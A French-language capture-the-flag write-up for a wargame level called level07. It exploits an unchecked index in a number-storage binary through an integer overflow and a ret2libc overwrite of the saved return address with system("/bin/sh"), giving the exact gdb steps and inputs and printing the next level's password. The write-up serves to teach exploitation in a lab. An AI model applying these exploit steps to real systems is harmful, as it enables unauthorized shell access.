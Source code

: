 Le binaire level07 nous donne trois choix :

----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Quand on choisit l'option store on va devoir renseigner le nombre a y insérer et l'index.
On va pouvoir entrer un maximum de 100 nombres dans l'espace réservé. Les indexs sont protégé par un %3  mais on va tout de même pouvoir aller écrire a des indexs  sup à 100 et inf à 0.

On va donc de tenter de réecrire sur l'EIP du main renvoyant vers la libc. Pour cela on doit tout d'abors connaitre l'emplacement de l'EIP :

> p $ebp
    $1 = (void *) 0xffffd708 <=== EBP donc EIP ===> 0xffffd70c

On cherche maintenant ou se trouve le début de notre buffer en faisant un store de (int)0x12345 = 74565 à l'index 1 pour le repérer facilement :

(gdb) x/16wx $esp
0xffffd520:     0x08048d4b      0xffffd6d8      0xf7fcfac0      0xf7fdc714
0xffffd530:     0x00000098      0xffffffff      0xffffd7fc      0xffffd7a8
0xffffd540:     0x00000000      0x00000000      0x00012345      0x00000000
0xffffd550:     0x00000000      0x00000000      0x00000000      0x00000000

l'index 1 est à l'adresse 0xffffd548 donc le debut du buffer en 0xffffd544

On soustrait l'adresse du debut du buffer a l'adresse de l'EIP :
0xffffd70c - 0xffffd544 = 0x1C8 = 456

On doit diviser par 4 pour compter en packet de 4 octets (taille des nombres stockés):
456 / 4 = 114.

On va tenter d'écrire un nombre à l'index 114 :

AAAA = 0x41414141 => 1094795585

which has no line number information.
Input command: store
 Number:  1094795585
 Index: 114
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command

 On va pouvoir contourner cette protection en utilisant l'overflow de l'unsigned int32:
 UINT32_MAX = [0x ffff ffff] le programme va lire 4294967295
 en ajoutant 1 on obtient [0x 1 0000 0000], le programme va donc lire 0 et le nombre 4294967296 nous permet de passer le %3.
 Sachant  que lors du read et du store, le programme prend l'index que l'on donne et fait << 2 (donc *4), si on veut réécrire sur l'index 0 on doit donner 4294967296 / 4 = 1073741824
 On a donc pu store une valeur a l'index 0 et on pourra faire de même pour l'EIP en faisant :

1 073 741 824(index 0) + 114 = 1073741938 <== index de l'EIP.

On va effectuer un ret2libc en faisant remplacant l'EIP par la fonction system avec "/bin/sh" en paramètre, pour cela on doit trouver l'adresse de système et l'adresse d'une string "/bin/sh" dans la libc:

> p system
    0xf7e6aed0 <system> => 4159090384

Pour trouver l'adresse d'une string correspondante à "/bin/sh" on utilise :

(gdb) info proc map
process 1666
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
         0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
         0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        [0xf7e2c000] 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fd8000 0xf7fdb000     0x3000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
 
 (gdb) find 0xf7e2c000, +99999999, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.

(gdb) x/s 0xf7f897ec
0xf7f897ec:      "/bin/sh" => 4160264172

On a donc notre EIP notre adresse de la fonction system et notre string "/bin/sh" :

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 1094795585
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC

On store à l'index 114 l'adresse de système
On store à l'index 115 AAAA
On store à l'index 116 "/bin/sh"